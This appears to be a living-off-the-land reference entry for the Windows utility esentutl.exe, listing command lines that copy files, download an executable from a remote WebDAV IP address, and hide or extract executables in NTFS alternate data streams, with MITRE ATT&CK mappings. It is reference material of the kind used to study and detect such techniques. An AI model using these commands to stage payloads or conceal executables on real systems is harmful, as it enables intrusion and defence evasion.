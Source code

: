 ## Esentutl.exe

* Functions: Copy, Download, Write ADS, Read ADS

```
esentutl.exe /y C:\folder\sourcefile.vbs /d C:\folder\destfile.vbs /o     
     
esentutl.exe /y C:\ADS\file.exe /d c:\ADS\file.txt:file.exe /o     
     
esentutl.exe /y C:\ADS\file.txt:file.exe /d c:\ADS\file.exe /o     
     
esentutl.exe /y \\82.221.113.85\webdav\file.exe /d c:\ADS\file.txt:file.exe /o     

esentutl.exe /y \\82.221.113.85\webdav\file.exe /d c:\ADS\file.exe /o     

esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o     
```

Acknowledgements:
* egre55 - @egre55

Code sample:
* 

Resources:
* https://twitter.com/egre55/status/985994639202283520

Full path:
```
c:\windows\system32\esentutl.exe
c:\windows\sysWOW64\esentutl.exe
```

Notes:



 
MITRE ATT&CK:
* [NTFS File Attributes](https://attack.mitre.org/wiki/Technique/T1096)
* [Remote File Copy](https://attack.mitre.org/wiki/Technique/T1105)
